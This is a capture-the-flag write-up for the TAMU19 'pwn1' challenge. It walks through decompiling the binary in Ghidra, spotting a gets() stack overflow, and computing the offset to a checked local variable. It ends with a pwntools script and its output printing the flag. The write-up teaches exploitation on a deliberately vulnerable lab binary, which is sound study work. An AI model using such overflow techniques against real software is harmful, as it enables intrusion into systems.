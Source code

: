 # Tamu19 pwn1
Let's take a look at the binary:
```bash
$    file pwn1
pwn1: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
$    pwn checksec pwn1
[*] '/Hackery/pod/modules/bof_variable/tamu19_pwn1/pwn1'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
$    ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
15935728
I don't know that! Auuuuuuuugh!
```
We can  see that this is  bit binary with RELRO, a non-executable stack and pie
When we run the binary, it prompts us for input, and print some text. Take a look at the main function in Ghidra:
```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */
/* WARNING: Removing unreachable block (ram,0x000108bb) */

undefined4 main(void)

{
  int strcmpResult0;
  int strcmpResult1;
  char input [43];
 
  setvbuf(stdout,(char *)0x2,0,0);
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere theother side he see."
      );
  puts("What... is your name?");
  fgets(input,0x2b,stdin);
  strcmpResult0 = strcmp(input,"Sir Lancelot of Camelot\n");
  if (strcmpResult0 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(input,0x2b,stdin);
  strcmpResult1 = strcmp(input,"To seek the Holy Grail.\n");
  if (strcmpResult1 == 0) {
    puts("What... is my secret?");
    gets(input);
    puts("I don\'t know that! Auuuuuuuugh!");
    return 0;
  }
  puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

We can see that it scan into `input` using `fgets`, then compare it with `strcmp()`. It does this twice:
- The first time it check for the string `Sir Lancelot of Camelot\n`. If we don't pass the check it will print `I don't know that! Auuuuuuuugh!` and exit.
- The second time is similar to the first one.
- Then the function will call `gets`, which we already know will scan data until either get a newline character or an EOF. Thus, this can cause stack overflow.

Also, we looking at the assembly code around the gets call, we see some interesting that the decompile doesn't show us:
```asm
        000108aa e8 71 fc        CALL       gets                                             char * gets(char * __s)
                 ff ff
        000108af 83 c4 10        ADD        ESP,0x10
        000108b2 81 7d f0        CMP        dword ptr [EBP + local_18],0xdea110c8
                 c8 10 a1 de
        000108b9 75 07           JNZ        LAB_000108c2
        000108bb e8 3d fe        CALL       print_flag                                       undefined print_flag()
                 ff ff
```

So we can see that it compares the contents of local_18 to 0xdea110c8, and if it is equal (which would mean it's zero) it calls the print_flag function. Looking at the decompiled code for print_flag, we see that it prints the contents of flag.txt.
```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void print_flag(void)

{
  FILE *flagFile;
  int flag;
 
  puts("Right. Off you go.");
  flagFile = fopen("flag.txt","r");
  while( true ) {
    flag = _IO_getc((_IO_FILE *)flagFile);
    if ((char)flag == -1) break;
    putchar((int)(char)flag);
  }
  putchar(10);
  return;
}
```
So if we can use the gets call to overwrite the contents of local_18 to `0xdea110c8`, we should get the flag (if you're running this locally you will need to have a copy of flag.txt that is in the same directory as the binary).


Looking at the stack layout in Ghidra (we can see it by double clicking on any of the variables in the variable declarations for the main function) shows us the offset between the start of our input and local_18:
```asm
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main(undefined1 param_1)
             undefined         AL:1           <RETURN>                                XREF[2]:     00010807(W),
                                                                                                   00010869(W)  
             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     00010779(*)  
             int               EAX:4          strcmpResult0                           XREF[1]:     00010807(W)  
             int               EAX:4          strcmpResult1                           XREF[1]:     00010869(W)  
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     00010780(R)  
             undefined1        Stack[-0x10]:1 local_10                                XREF[1]:     000108d9(*)  
             undefined4        Stack[-0x14]:4 local_14                                XREF[1]:     000107ad(W)  
             undefined4        Stack[-0x18]:4 local_18                                XREF[2]:     000107b4(W),
                                                                                                   000108b2(R)  
             char[43]          Stack[-0x43]   input                                   XREF[5]:     000107ed(*),
                                                                                                   00010803(*),
                                                                                                   0001084f(*),
                                                                                                   00010865(*),
                                                                                                   000108a6(*)  
                             main                                            XREF[5]:     Entry Point(*),
                                                                                          _start:000105e6(*), 00010ab8,
                                                                                          00010b4c(*), 00011ff8(*)  
        00010779 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]


```
We can see that input starts at offset `-0x43`. We see that `local_18` starts at offset `-0x18`. This gives us an offset of `0x43 - 0x18 = 0x2b` between the start of our input and `local_18`. Then we can just overflow it (write more data to a region than it can hold, so it spills over and starts overwriting subsequent things in memory) and overwrite `local_18` with `0xdea110c8`.
## Exploit
So, in order to reach the `gets` call, we need to send the program string `Sir Lancelot of Camelot\n` and `To seek the Holy Grail.\n`. 
Then we overwrite `local_18` with `0xdea110c8`. We got a exploit program:

```py
# Import pwntools
from pwn import *

# Establish the target process 
target = process('./pwn1')

# Make the payload
payload = ""
payload += "0" * 0x2b
payload += p32(0xdea110c8)

target.sendline("Sir Lancelot of Camelot\n")
target.sendline("To seek the Holy Grail.\n")

# Send the payload
target.sendline(payload)

target.interactive()
```


when we run it
```bash
$    python exploit.py
[+] Starting local process './pwn1': pid 12060
[*] Switching to interactive mode
[*] Process './pwn1' stopped with exit code 0 (pid 12060)
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz}

[*] Got EOF while reading in interactive
$
[*] Got EOF while sending in interactive
```